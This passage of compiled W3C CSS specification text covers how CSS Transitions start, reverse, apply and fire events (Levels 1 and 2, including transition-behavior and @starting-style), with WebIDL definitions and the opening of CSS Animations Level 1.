When a style change event occurs, implementations must start transitions based on the computed values that changed in that event. If an element is not in the document during that style change event or was not in the document during the previous style change event, then transitions are not started for that element in that style change event. Otherwise, define the **before-change style** as the computed values of all properties on the element as of the previous style change event, except with any styles derived from declarative animations such as CSS Transitions, CSS Animations ([CSS3-ANIMATIONS]), and SMIL Animations ([SMIL-ANIMATION], [SVG11]) updated to the current time. Likewise, define the **after-change style** as the computed values of all properties on the element based on the information known at the start of that style change event, but using the computed values of the `animation-*` properties from the before-change style, excluding any styles from CSS Transitions in the computation, and inheriting from the after-change style of the parent. Note that this means the after-change style does not differ from the before-change style due to newly created or canceled CSS Animations.

> **Note:** that this definition of the after-change style means that a single change can start a transition on the same property on both an ancestor element and its descendant element. This can happen when a property change is inherited from one element with `transition-*` properties that say to animate the changing property to another element with `transition-*` properties that also say to animate the changing property.
>
> When this happens, both transitions will run, and the transition on the descendant will override the transition on the ancestor because of the normal CSS cascading and inheritance rules ([CSS3CASCADE]).
>
> If the transition on the descendant completes before the transition on the ancestor, the descendant will then resume inheriting the (still transitioning) value from its parent. This effect is likely not a desirable effect, but it is essentially doing what the author asked for.

For each element with a before-change style and an after-change style, and each property (other than shorthands), define the **matching transition-property value** as the last value in the `transition-property` in the element’s after-change style that matches the property, as described in [§ 2.1 The transition-property Property](#css-transitions-1:transition-property-property). If there is such a value, then corresponding to it, there is a **matching transition duration**, a **matching transition delay**, and a **matching transition timing function** in the values in the after-change style of `transition-duration`, `transition-delay`, and `transition-timing-function` (see [the rules on matching lists](#css-transitions-1:list-matching)). Define the **combined duration** of the transition as the sum of max(matching transition duration, `0s`) and the matching transition delay.

When comparing the before-change style and after-change style for a given property, the property values are **transitionable** if they have an animation type that is *neither* not animatable *nor* discrete.

> **Note:** Even if a *property* is defined to have an animation type that is *not* discrete, for a particular pair of *property values* the animation type may be discrete. For example, the animation type of the `box-shadow` property is shadow list, which defines that when the `inset` keyword is absent in one value but present in the other, discrete animation is used. As a result `0px 0px black` and `inset 10px 10px black` are *not* transitionable.

For each element and property, the implementation must act as follows:

1. If all of the following are true:

  - the element does not have a running transition for the property,
  - the before-change style is different from the after-change style for that property, and the values for the property are transitionable,
  - the element does not have a completed transition for the property or the end value of the completed transition is different from the after-change style for the property,
  - there is a matching transition-property value, and
  - the combined duration is greater than `0s`,

   then implementations must remove the completed transition (if present) from the set of completed transitions and start a transition whose:

  - start time is the time of the style change event plus the matching transition delay,
  - end time is the start time plus the matching transition duration,
  - start value is the value of the transitioning property in the before-change style,
  - end value is the value of the transitioning property in the after-change style,
  - reversing-adjusted start value is the same as the start value, and
  - reversing shortening factor is 1.
2. Otherwise, if the element has a completed transition for the property and the end value of the completed transition is different from the after-change style for the property, then implementations must remove the completed transition from the set of completed transitions.
3. If the element has a running transition or completed transition for the property, and there is **not** a matching transition-property value, then implementations must cancel the running transition or remove the completed transition from the set of completed transitions.
4. If the element has a running transition for the property, there is a matching transition-property value, and the end value of the running transition is **not** equal to the value of the property in the after-change style, then:

  1. If the current value of the property in the running transition is equal to the value of the property in the after-change style, or if these two values are not transitionable, then implementations must cancel the running transition.
  2. Otherwise, if the combined duration is less than or equal to `0s`, or if the current value of the property in the running transition is not transitionable with the value of the property in the after-change style, then implementations must cancel the running transition.
  3. Otherwise, if the reversing-adjusted start value of the running transition is the same as the value of the property in the after-change style (see the [section on reversing of transitions](#css-transitions-1:reversing) for why these case exists), implementations must cancel the running transition and start a new transition whose:

    - reversing-adjusted start value is the end value of the running transition (Note: This represents the logical start state of the transition, and allows some calculations to ignore that the transition started before that state was reached, which in turn allows repeated reversals of the same transition to work correctly),
    - reversing shortening factor is the absolute value, clamped to the range [0, 1], of the sum of:

      1. the output of the timing function of the old transition at the time of the style change event, times the reversing shortening factor of the old transition
      2. 1 minus the reversing shortening factor of the old transition.

      Note: This represents the portion of the space between the reversing-adjusted start value and the end value that the old transition has traversed (in amounts of the value, not time), except with the absolute value and clamping to handle timing functions that have y1 or y2 outside the range [0, 1].
    - start time is the time of the style change event plus:

      1. if the matching transition delay is nonnegative, the matching transition delay, or
      2. if the matching transition delay is negative, the product of the new transition’s reversing shortening factor and the matching transition delay,
    - end time is the start time plus the product of the matching transition duration and the new transition’s reversing shortening factor,
    - start value is the current value of the property in the running transition,
    - end value is the value of the property in the after-change style,
  4. Otherwise, implementations must cancel the running transition and start a new transition whose:

    - start time is the time of the style change event plus the matching transition delay,
    - end time is the start time plus the matching transition duration,
    - start value is the current value of the property in the running transition,
    - end value is the value of the property in the after-change style,
    - reversing-adjusted start value is the same as the start value, and
    - reversing shortening factor is 1.

> **Note:** that the above rules mean that when the computed value of an animatable property changes, the transitions that start are based on the values of the `transition-property`, `transition-duration`, `transition-timing-function`, and `transition-delay` properties at the time the animatable property would first have its new computed value. This means that when one of these `transition-*` properties changes at the same time as a property whose change might transition, it is the *new* values of the `transition-*` properties that control the transition.
>
> > **Example:** (s):
> >
> > This provides a way for authors to specify different values of the `transition-*` properties for the “forward” and “reverse” transitions, when the transitions are between two states (but see [below](#css-transitions-1:reversing) for special reversing behavior when an *incomplete* transition is interrupted). Authors can specify the value of `transition-duration`, `transition-timing-function`, or `transition-delay` in the same rule where they specify the value that triggers the transition, or can change these properties at the same time as they change the property that triggers the transition. Since it’s the new values of these `transition-*` properties that affect the transition, these values will be used for the transitions *to* the associated transitioning values. For example:
> >
> > ```
> > li {
> >   transition: background-color linear 1s;
> >   background: blue;
> > }
> > li:hover {
> >   background-color: green;
> >   transition-duration: 2s; /* applies to the transition *to* the :hover state */
> > }
> > ```
> >
> > When a list item with these style rules enters the :hover state, the computed `transition-duration` at the time that `background-color` would have its new value (`green`) is `2s`, so the transition from `blue` to `green` takes 2 seconds. However, when the list item leaves the :hover state, the transition from `green` to `blue` takes 1 second.

> **Note:** that once the transition of a property has started (including being in its delay phase), it continues running based on the original timing function, duration, and delay, even if the `transition-timing-function`, `transition-duration`, or `transition-delay` property changes before the transition is complete. However, if the `transition-property` property changes such that the transition would not have started, the transition stops (and the property immediately changes to its final value).

> **Note:** that above rules mean that transitions do not start when the computed value of a property changes as a result of declarative animation (as opposed to scripted animation). This happens because the before-change style includes up-to-date style for declarative animations.

#### 3.1. Faster reversing of interrupted transitions {#css-transitions-1:reversing}

> **Note:** Many common transitions effects involve transitions between two states, such as the transition that occurs when the mouse pointer moves over a user interface element, and then later moves out of that element. With these effects, it is common for a running transition to be interrupted before it completes, and the property reset to the starting value of that transition. An example is a hover effect on an element, where a transition starts when the pointer enters the element, and then the pointer exits the element before the effect has completed. If the outgoing and incoming transitions are executed using their specified durations and timing functions, the resulting effect can be distractingly asymmetric because the second transition takes the full specified time to move a shortened distance. Instead, this specification makes second transition shorter.
>
> The mechanism the above rules use to cause this involves the reversing shortening factor and the reversing-adjusted start value. In particular, the reversing behavior is present whenever the reversing shortening factor is less than 1.
>
> > **Note:** that these rules do not fully address the problem for transition patterns that involve more than two states.
>
> > **Note:** that these rules lead to the entire timing function of the new transition being used, rather than jumping into the middle of a timing function, which can create a jarring effect.
>
> > **Note:** This was one of several possibilities that was considered by the working group. See the [reversing demo](../css-transitions-1/examples/transition-reversing-demo) demonstrating a number of them, leading to a working group resolution made on 2013-06-07 and edits made on 2013-11-11.

### 4. Application of transitions {#css-transitions-1:application}

When a property on an element is undergoing a transition (that is, when or after the transition has started and before the end time of the transition) the transition adds a style called the **current value** to the CSS cascade at the level defined for CSS Transitions in [CSS3CASCADE].

> **Note:** that this means that computed values resulting from CSS transitions can inherit to descendants just like any other computed values. In the normal case, this means that a transition of an inherited property applies to descendant elements just as an author would expect.

Implementations must add this value to the cascade if and only if that property is not currently undergoing a CSS Animation ([CSS3-ANIMATIONS]) on the same element.

> **Note:** that this behavior of transitions not applying to the cascade when an animation on the same element and property is running does not affect whether the transition has started or ended. APIs that expose whether transitions are running (such as [transition events](#css-transitions-1:transition-events)) still report that a transition is running.

If the current time is at or before the start time of the transition (that is, during the delay phase of the transition), the current value is a specified style that will compute to the start value of the transition.

If the current time is after the start time of the transition (that is, during the duration phase of the transition), the current value is a specified style that will compute to the result of interpolating the property using the following values:

- *Va*: start value of the transition
- *Vb*: end value of the transition
- *p*: the output of the [timing function](#css-transitions-1:transition-timing-function-property) for input (current time - start time) / (end time - start time)

The specific interpolation procedure to be used is defined by the property’s animation type.

### 5. Completion of transitions {#css-transitions-1:complete}

Running transitions **complete** at a time that is equal to or after their end time, but prior to the first style change event whose time is equal to or after their end time. When a transition completes, implementations must move all transitions that complete at that time from the set of running transitions to the set of completed transitions and then fire the [events](#css-transitions-1:transition-events) for those completions. (Note that doing otherwise, that is, firing some of the events before doing all of the moving from running transitions to completed transitions, could allow a style change event to happen without the necessary transitions completing, since firing the event could cause a style change event, if an event handler requests up-to-date computed style or layout data.)

### 6. Transition Events {#css-transitions-1:transition-events}

The creation, beginning, completion, and cancellation of CSS transitions generate corresponding DOM Events. An event is dispatched to the element for each property that undergoes a transition on that element. This allows a content developer to perform actions that synchronize with changes to transitions.

Each event provides the name of the property the transition is associated with as well as the duration of the transition.

#### 6.1. Interface `TransitionEvent` {#css-transitions-1:interface-transitionevent}

The `TransitionEvent` interface provides specific contextual information associated with transitions.

##### 6.1.1. IDL Definition {#css-transitions-1:interface-transitionevent-idl}

```webidl
[Exposed=Window]
interface TransitionEvent : Event {
  constructor(CSSOMString type, optional TransitionEventInit transitionEventInitDict = {});
  readonly attribute CSSOMString propertyName;
  readonly attribute double elapsedTime;
  readonly attribute CSSOMString pseudoElement;
};

dictionary TransitionEventInit : EventInit {
  CSSOMString propertyName = "";
  double elapsedTime = 0.0;
  CSSOMString pseudoElement = "";
};
```

##### 6.1.2. Attributes {#css-transitions-1:interface-transitionevent-attributes}

**`propertyName, of type CSSOMString, readonly`**

: The name of the CSS property associated with the transition.

  > **Note:** This is always the name of a longhand property. See `transition-property` for how specifying shorthand properties causes transitions on longhands.

**`elapsedTime, of type double, readonly`**

: The amount of time the transition has been running, in seconds, when this event fired not including any time spent in the delay phase. The calculation for of this member is defined along with each event type.

**`pseudoElement, of type CSSOMString, readonly`**

: The name (beginning with two colons) of the CSS pseudo-element on which the transition occurred (in which case the target of the event is that pseudo-element’s corresponding element), or the empty string if the transition occurred on an element (which means the target of the event is that element).

`TransitionEvent(type, transitionEventInitDict)` is an event constructor.

#### 6.2. Types of `TransitionEvent` {#css-transitions-1:event-transitionevent}

The different types of transition events that can occur are:

****`transitionrun`****

: The `transitionrun` event occurs when a transition is created (i.e., when it is added to the set of running transitions).

  A negative `transition-delay` will cause the event to fire with an `elapsedTime` equal to the absolute value of the delay capped to the `transition-duration` of the animation. That is, the elapsed time is equal to `min(max(-transition-delay, 0), transition-duration)`.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: propertyName, elapsedTime, pseudoElement

****`transitionstart`****

: The `transitionstart` event occurs when a transition’s delay phase ends.

  The value of `elapsedTime` for `transitionstart` events is the same as the value used for `transitionrun` events.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: propertyName, elapsedTime, pseudoElement

****`transitionend`****

: The `transitionend` event occurs at the completion of the transition. In the case where a transition is removed before completion, such as if the `transition-property` is removed, then the event will not fire.

  The value of `elapsedTime` for this event is equal to the value of `transition-duration`.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: propertyName, elapsedTime, pseudoElement

****`transitioncancel`****

: The `transitioncancel` event occurs when a transition is canceled.

  The `elapsedTime` for `transitioncancel` events is the number of seconds from the end of the transition’s delay to the moment when the transition was canceled. If the transition had a negative `transition-delay`, the beginning of the transition is the moment equal to the absolute value of `transition-delay` seconds *prior* to when the transition was actually triggered. Alternatively, if the transition had a positive `transition-delay` and the event is fired before the transition’s delay has expired, the `elapsedTime` will be zero.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: propertyName, elapsedTime, pseudoElement

#### 6.3. Event handlers on elements, `Document` objects, and `Window` objects {#css-transitions-1:event-handlers-on-elements-document-objects-and-window-objects}

The following are the event handlers (and their corresponding event handler event types) that must be supported by all HTML elements, as both event handler content attributes and event handler IDL attributes; and that must be supported by all `Document` and `Window` objects, as event handler IDL attributes:

| Event handler | Event handler event type |
| --- | --- |
| `ontransitionrun` | transitionrun |
| `ontransitionstart` | transitionstart |
| `ontransitionend` | transitionend |
| `ontransitioncancel` | transitioncancel |

### 7. DOM Interfaces {#css-transitions-1:interface-dom}

This specification extends the `GlobalEventHandlers` interface mixin from HTML to add event handler IDL attributes for [transition events](#css-transitions-1:transition-events) as defined in [§ 6.3 Event handlers on elements, Document objects, and Window objects](#css-transitions-1:event-handlers-on-elements-document-objects-and-window-objects).

#### 7.1. IDL Definition {#css-transitions-1:interface-globaleventhandlers-idl}

```webidl
partial interface mixin GlobalEventHandlers {
  attribute EventHandler ontransitionrun;
  attribute EventHandler ontransitionstart;
  attribute EventHandler ontransitionend;
  attribute EventHandler ontransitioncancel;
};
```

### 10. Accessibility Considerations {#css-transitions-1:accessibility}

*This section is not normative.*

#### 10.1. Motion {#css-transitions-1:accessibility-motion}

This specification provides declarative mechanisms for animations that previously needed to be done using script. Providing a declarative mechanism has multiple effects: it makes such animations easier to make and thus likely to be more common, but it also makes it easier for user agents to modify those animations if such modifications are needed to meet a user’s accessibility needs.

Thus, users who are sensitive to movement, or who require additional time to read or understand content, may benefit from user agent features that allow animations to be disabled or slowed down. (But see [§ 9 Privacy Considerations](#css-transitions-1:privacy) for information on the privacy implications of such mitigations.)

User agent implementors should be aware that Web content may depend on the firing of [transition events](#css-transitions-1:transition-events), so implementations of such mitigations may wish to fire transition events even if the transitions were not run as continuous animations. However, it is probably poor practice for Web content to depend on such events to function correctly.

#### 10.2. Cascade {#css-transitions-1:accessibility-cascade}

The CSS cascade is a general mechanism in CSS that allows user needs to interact with author styles. This specification interacts with the cascade, but since it only allows animation between values that result from the existing cascade rules, it does not interfere with the user’s ability to force CSS properties to have particular values.

The cascade also allows users to disable transitions entirely by overriding the transition properties.

---

## CSS Transitions Module Level 2 {#css-transitions-2}

- **Shortname:** `css-transitions-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-transitions-2/](https://drafts.csswg.org/css-transitions-2/)
- **Published TR:** [https://www.w3.org/TR/css-transitions-2/](https://www.w3.org/TR/css-transitions-2/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-04-22
- **Diff Specification Over:** [CSS Transitions Module Level 1 (`css-transitions-1`)](#css-transitions-1)

### 1. Delta specification {#css-transitions-2:delta}

This is a delta specification, meaning that it currently contains only the differences from CSS Transitions Level 1 [CSS-TRANSITIONS-1]. Once the Level 1 specification is closer to complete, it will be merged with the additions here into a complete level 2 specification.

### 2. Transitions {#css-transitions-2:transitions}

#### 2.1. The `transition-property` Property {#css-transitions-2:transition-property-property}

> **Issue:** Insert text from [CSS Transitions 1 § 2.1 The transition-property Property](#css-transitions-1:transition-property-property) and backport the following paragraph.

Although the `transition-property` may specify shorthand properties and the `all` keyword, individual transitions are generated for each longhand sub-property that is transitionable. The **expanded transition property name** of a transition is the name of the longhand sub-property for which the transition was generated (e.g. `border-left-width`).

> **Issue:** Update the defining instance of transitionable once it is ported from Level 1.

In CSS Transitions Level 2, when comparing the before-change style and after-change style for a given property, the property values are **transitionable** if:

1. They have an animation type that is neither not animatable nor discrete, or
2. The `transition-behavior` is `allow-discrete` and they have an animation type that is discrete.

> **Note:** When values with a discrete animation type are transitioned, they flip at 50% progress.

#### 2.2. The `transition-duration` Property {#css-transitions-2:transition-duration-property}

The `transition-duration` property specifies the iteration duration of the transition’s associated animation effect.

#### 2.3. The `transition-timing-function` Property {#css-transitions-2:transition-timing-function-property}

The `transition-timing-function` property specifies the timing function of the transition’s associated animation effect (see [Web Animations § 4.6.11 Easing (effect timing transformations)](#web-animations-1:time-transformations)).

> **Note:** Unlike CSS animations, the timing function for CSS transitions applies to the animation effect as opposed to the individual keyframes since this allows it to be reflected in the transformed progress as used when calculating the reversing shortening factor.

#### 2.4. The `transition-delay` Property {#css-transitions-2:transition-delay-property}

The `transition-delay` property specifies the start delay of the transition’s associated animation effect.

#### 2.5. The `transition-behavior` Property {#css-transitions-2:transition-behavior-property}

The `transition-behavior` property specifies whether transitions will be started or not for discrete properties.

| Field | Value |
| --- | --- |
| Name: | **transition-behavior** |
| [Value:](#css-values-4:value-defs) | `<transition-behavior-value>`# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [All elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The syntax for specifying `transition-behavior` is as follows:

**`<transition-behavior-value>`** = normal | allow-discrete

When `normal` is specified, transitions will not be started for discrete properties, only for interpolable properties. When `allow-discrete` is specified, transitions will be started for discrete properties as well as interpolable properties.

#### 2.6. The `transition` Shorthand Property {#css-transitions-2:transition-shorthand-property}

The syntax for specifying an item in the `transition` shorthand is as follows:

**<single-transition>** = [ `none` | `<single-transition-property>` ] || `<time>` || `<easing-function>` || <time> || `<transition-behavior-value>`

### 3. Starting of transitions {#css-transitions-2:starting}

The **owning element** of a transition refers to the element or pseudo-element to which the `transition-property` property was applied that generated the animation. A transition may be disassociated from its owning element such that it has no owning element.

The set of running transitions includes only those transitions that have an owning element.

Whenever an implementation is required to cancel a transition, it must disassociate the transition from its owning element and run the procedure to cancel an animation on the transition.

Although not explicitly defined by level 1 of this specification, in addition to canceling transitions on elements that are no longer connected, implementations must also cancel any running transitions on elements that are no longer being rendered and remove transitions on them from the set of completed transitions.

Note that calling the `cancel()` method on the `CSSTransition` object representing a running transition does *not* cause the transition to be disassociated from its owning element.

#### 3.1. Faster reversing of interrupted transitions {#css-transitions-2:reversing}

The reversing shortening factor and reversing-adjusted start value associated with a transition in order to produce correct reverse behavior, are associated with the transition itself and not, for example, its animation effect. As a result, transitions will use these same values when producing a reversed transition, even if the transition’s associated animation effect has been updated or replaced using the Web Animations API [WEB-ANIMATIONS].

#### 3.2. The current transition generation {#css-transitions-2:current-transition-generation-section}

Associated with each top-level browsing context is a **current transition generation** that is incremented on each style change event.

Each time a new transition is generated, the current value of the (already incremented) current transition generation is stored as the transition’s **transition generation**.

#### 3.3. Defining before-change style: the `@starting-style` rule {#css-transitions-2:defining-before-change-style}

In Level 1 of this specification, transitions can only start during a style change event for elements which have a defined before-change style established by the previous style change event. That means a transition could not be started on an element that was not being rendered for the previous style change event (see: [CSS Transitions 1 § 3 Starting of transitions](#css-transitions-1:starting)).

In some cases it makes sense to start transitions on newly inserted elements or elements that change from not being rendered to being rendered. To allow for that, this specification introduces `@starting-style`.

The **@starting-style** rule is a grouping rule. The style rules inside it are used to establish styles to transition from, if the previous style change event did not establish a before-change style for the element whose styles are being computed.

> **Note:** This means that `@starting-style` rules only apply to some elements during a computed style update, namely elements that were not rendered or part of the DOM during the previous style change event.

Define **starting style** for an element as the after-change style with `@starting-style` rules applied in addition. If an element does not have a before-change style for a given style change event, the starting style is used instead of the before-change style to compare with the after-change style to start transitions ([CSS Transitions 1 § 3 Starting of transitions](#css-transitions-1:starting)).

The rules inside `@starting-style` cascade as any other grouped style rules without introducing any new ordering to the cascade, which means rules inside `@starting-style` do not necessarily win over those outside.

Style rules in `@starting-style` do not apply to after-change style. Thus, the presence of matching rules in `@starting-style` can cause transitions to occur on elements that otherwise could not have transitions because they lack a before-change style.

Starting style inherits from the parent’s after-change style just like after-change style does.

> **Example:** The `background-color` of an `h1` element can be transitioned from transparent to green when it is initially rendered:
>
> ```css
> h1 {
>   transition: background-color 1.5s;
>   background-color: green;
> }
> @starting-style {
>   h1 {
>     background-color: transparent;
>   }
> }
> ```
>
> Conditional rules can be used with CSS Nesting:
>
> ```css
> h1 {
>   transition: background-color 1.5s;
>   background-color: green;
>   @starting-style {
>     background-color: transparent;
>   }
> }
> ```

> **Example:** The `opacity` of an element can be transitioned when the element changes to or from `display: none`:
>
> ```css
> #target {
>   transition-property: opacity, display;
>   transition-duration: 0.5s;
>   display: block;
>   opacity: 1;
>   @starting-style {
>     opacity: 0;
>   }
> }
> #target.hidden {
>   display: none;
>   opacity: 0;
> }
> ```
>
> The display is transitioning to allow for an opacity transition before flipping from `display:block` to `display:none`.
>
> Specifying `opacity: 0` in the `@starting-style` rule means the element will transition opacity from `0` to `1` when inserted into the tree or when the `hidden` class flips `display` from `none` to `block` as the target element does not already have a before-change style in those cases.
>
> Specifying `opacity: 0` in the `#target.hidden` rule makes `opacity` transition from `1` to `0` when the `hidden` class is added.

Global, name-defining at-rules such as `@keyframes`, `@font-face`, and `@layer` are allowed inside `@starting-style`, and when present behave as if they were outside of `@starting-style`.

##### 3.3.1. The `CSSStartingStyleRule` interface {#css-transitions-2:the-cssstartingstylerule-interface}

The `CSSStartingStyleRule` interface represents a `@starting-style` rule.

```webidl
[Exposed=Window]
interface CSSStartingStyleRule : CSSGroupingRule {
};
```

### 4. Application of transitions {#css-transitions-2:application}

#### 4.1. Animation composite order {#css-transitions-2:animation-composite-order}

Animations generated from the markup defined in this specification have an animation class of ‘CSS Transition’.

CSS Transitions have an *earlier* composite order that CSS Animations and animations without a specific animation class.

Within the set of CSS Transitions, two animations *A* and *B* are sorted in composite order (first to last) as follows:

1. If neither *A* nor *B* has an owning element, sort based on their relative position in the global animation list.
2. Otherwise, if only one of *A* or *B* has an owning element, let the animation *with* an owning element sort first.
3. Otherwise, if the owning element of *A* and *B* differs, sort *A* and *B* by tree order of their corresponding owning elements. With regard to pseudo-elements, the sort order is as follows:

  - element
  - ::marker
  - ::before
  - any other pseudo-elements not mentioned specifically in this list, sorted in ascending order by the Unicode codepoints that make up each selector
  - ::after
  - element children
4. Otherwise, if *A* and *B* have different transition generation values, sort by their corresponding transition generation in ascending order.
5. Otherwise, sort *A* and *B* in ascending order by the Unicode codepoints that make up the expanded transition property name of each transition (i.e. without attempting case conversion and such that ‘-moz-column-width’ sorts before ‘column-width’).

When determining the composite order in order to sort transition events where either or both of the events is a `transitioncancel` event, use the owning element and transition generation that were set immediately prior to canceling the transition.

Transitions generated using the markup defined in this specification are *not* added to the global animation list when they are created. Instead, these animations are appended to the global animation list at the first moment when they transition out of the idle play state after being disassociated from their owning element. Transitions that have been disassociated from their owning element but are still idle do not have a defined composite order.

> **Note:** This behavior relies on the fact that disassociating a transition from its owning element always causes it to enter (or remain) in the idle play state.

#### 4.2. Animation cascade level {#css-transitions-2:cascade-level}

Animations with an animation class of ‘CSS Transition’ that have an owning element are applied to the ‘Transitions declaration’ level of the CSS cascade. All other animations generated by the markup defined in this specification, including animations that no longer have an owning element, are applied to the ‘Animation declarations’ level of the cascade. (See [Web Animations § 5.4.5 Applying the composited result](#web-animations-1:applying-the-composited-result).)

### 5. Transition Events {#css-transitions-2:transition-events}

#### 5.1. Event dispatch {#css-transitions-2:event-dispatch}

> **Note:** this is a more general description of event dispatch than that of CSS Transitions Level 1 [CSS-TRANSITIONS-1] since it must account for the possibility of animations being seeked or reversed using the Web Animations API [WEB-ANIMATIONS]. Furthermore, it is possible using the Web Animations API to substitute the transition effect with an entirely different effect with properties not normally used with transitions (e.g. an effect that repeats multiple times) and hence this section provides a generic definition that accounts for the full complexity of the Web Animations model.

The target for a transition event is the transition’s owning element. If there is no owning element, no transition events are dispatched (although the animation playback events defined in Web Animations are still dispatched at the corresponding `CSSTransition` object).

To avoid firing redundant events, the set of events to dispatch is based on comparing the phase of the transition in the previous animation frame to its current state.

The **transition phase** of a transition is initially ‘idle’ and is updated on each animation frame according to the first matching condition from below:

**If the transition has no associated effect,**

: The transition phase is set according to the first matching condition from below:

  **If the transition has an unresolved current time,**

  : The transition phase is ‘idle’.

  **If the transition has a current time < 0,**

  : The transition phase is ‘before’.

  **Otherwise,**

  : The transition phase is ‘after’.

**If the transition has a pending play task or a pending pause task and its phase was previously ‘idle’ or ‘pending’,**

: The transition phase is ‘pending’.

**Otherwise,**

: The transition phase is the [phase](#web-animations-1:animation-effect-phases-and-states) of its associated effect.

For calculating the `elapsedTime` of each event, the following definitions are used:

- **interval start** = `max(min(-start delay, active duration), 0)`
- **interval end** = `max(min(associated effect end - start delay, active duration), 0)`

In the above formulae, references to the start delay, active duration, current iteration, iteration start, and iteration duration of a transition should be understood to refer to the corresponding properties of the transition’s associated effect.

Each time a new animation frame is established, the events to dispatch are determined by comparing the transition phase in the previous and current animation frame as follows:

| Change | Events dispatched | **Elapsed time** (ms) |
| --- | --- | --- |
| idle → pending or before | `transitionrun` | interval start |
| idle → active [٭](#css-transitions-2:multiple-events-note) | `transitionrun` | interval start |
| `transitionstart` |  |  |
| idle → after [٭](#css-transitions-2:multiple-events-note) | `transitionrun` | interval start |
| `transitionstart` |  |  |
| `transitionend` | interval end |  |
| pending or before → active | `transitionstart` | interval start |
| pending or before → after [٭](#css-transitions-2:multiple-events-note) | `transitionstart` | interval start |
| `transitionend` | interval end |  |
| active → after | `transitionend` | interval end |
| active → before | `transitionend` | interval start |
| after → active | `transitionstart` | interval end |
| after → before [٭](#css-transitions-2:multiple-events-note) | `transitionstart` | interval end |
| `transitionend` | interval start |  |
| *not* idle and *not* after → idle | `transitioncancel` | The active time of the animation at the moment it was canceled calculated using a fill mode of both. |

٭ Where multiple events are listed for a state change, all events are dispatched in the order listed and in immediate succession.

Since the elapsed time defined in the table and procedure above is expressed in milliseconds, it must be divided by 1,000 to produce a value in seconds before being assigned to the `elapsedTime` member of the `TransitionEvent`.

> **Note:** The above state transition chart ensures that, with the exception of transitions that are paused or have an infinite running time, the following invariants hold:
>
> - For every `transitionrun` event there will be a exactly one `transitionend` *or* `transitioncancel` and never both.
> - For every `transitionstart` event there will be a exactly one `transitionend` *or* `transitioncancel` and never both.
> - Every `transitionend` event is preceded by a corresponding `transitionstart` event.
>
> The typical sequences of events, then, are as follows:
>
> - Regular playback: `transitionrun`, `transitionstart`, `transitionend`.
> - Interrupted playback: `transitionrun`, `transitionstart`, `transitioncancel`.
> - Interrupted playback during delay or pending phase: `transitionrun`, `transitioncancel`.
> - Reversed playback after completion: `transitionrun`, `transitionstart`, `transitionend`, `transitionstart`, `transitionend`.

#### 5.2. Interface `TransitionEvent` {#css-transitions-2:interface-transitionevent}

Add animation to the `TransitionEvent` interface and `TransitionEventInit` dictionary as follows:

##### 5.2.1. IDL Definition {#css-transitions-2:interface-transitionevent-idl}

```webidl
[Exposed=Window]
partial interface TransitionEvent {
  readonly attribute CSSTransition? animation;
};

partial dictionary TransitionEventInit {
  CSSTransition? animation = null;
};
```

##### 5.2.2. Attributes {#css-transitions-2:interface-transitionevent-attributes}

Add attribute descriptions as follows:

**`animation, of type CSSTransition, readonly, nullable`**

: The CSS Transition corresponding to the transition that fired the event.

### 6. DOM Interfaces {#css-transitions-2:interface-dom}

#### 6.1. The CSSTransition interface {#css-transitions-2:the-CSSTransition-interface}

```webidl
[Exposed=Window]
interface CSSTransition : Animation {
  readonly attribute CSSOMString transitionProperty;
};
```

****`transitionProperty`**,  of type CSSOMString, readonly**

: The expanded transition property name of this transition.

#### 6.2. Requirements on pending style changes {#css-transitions-2:requirements-on-pending-style-changes}

Various operations may affect the computed values of properties on elements. User agents may, as an optimization, defer recomputing these values until it becomes necessary. However, all operations included in programming interface defined in this specification, as well as those operations defined in Web Animations [WEB-ANIMATIONS] that may return objects defined by this specification, must produce a result consistent with having fully processed any such pending changes to computed values.

> **Note:** As an example, in the following code fragment, when the specified value of `elem`’s `opacity` property is updated, a user agent may defer recalculating the computed value of the `opacity` property.
>
> The first time this occurs, calling `getComputedStyle(elt)` and subsequently accessing the `opacity` property of the result will cause the user agent to recompute the value of opacity.
>
> After the `opacity` property is updated a second time, the `getAnimations()` method is called on `elem`. This method is specified by Web Animations and can return `CSSTransition` objects as defined in this specification. Hence, as result of the requirements in this section, the user agent must apply any pending style changes thus generating a new `CSSTransition` for the `opacity` property before returning its result.
>
> ```javascript
> elem.style.transition = 'opacity 100s';
> elem.style.opacity = '0';
> window.getComputedStyle(elem).opacity; // 0
> elem.style.opacity = '1';
> elem.getAnimations()[0].transitionProperty // 'opacity'
> ```

### 10. Issues commonly raised as issues with previous levels {#css-transitions-2:issues-common}

These issues were commonly reported issues with the previous level of the specification.

> **Issue:** More powerful timing function syntax is a common request from developers. See, for example: [2013 message](https://lists.w3.org/Archives/Public/www-style/2013Jun/0376.html) or [2015 thread](https://lists.w3.org/Archives/Public/public-fx/2015JulSep/thread.html#msg34).

> **Issue:** Developers frequently have to trigger style flushes in order to force transitions to start. It would be good to have an API that would avoid this requirement. See, for example, [2011 proposal](https://lists.w3.org/Archives/Public/www-style/2011Mar/0729.html).

### 11. Issues deferred from previous levels of the spec {#css-transitions-2:issues-spec}

These issues were in previous levels of the specification, but may not turn out to be important in this level either.

> **Issue:** We may ultimately want to support a keypath syntax for the `transition-property` property. A keypath syntax would enable different transitions to be specified for components of a property. For example the blur of a shadow could have a different transition than the color of a shadow.

---

## CSS Animations Module Level 1 {#css-animations-1}

- **Shortname:** `css-animations-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-animations/](https://drafts.csswg.org/css-animations/)
- **Published TR:** [https://www.w3.org/TR/css-animations-1/](https://www.w3.org/TR/css-animations-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-09-13

### 1.  Introduction {#css-animations-1:intro}

*This section is not normative*

CSS Transitions [CSS3-TRANSITIONS] provide a way to interpolate CSS property values when they change as a result of underlying property changes. This provides an easy way to do simple animation, but the start and end states of the animation are controlled by the existing property values, and transitions provide little control to the author on how the animation progresses.

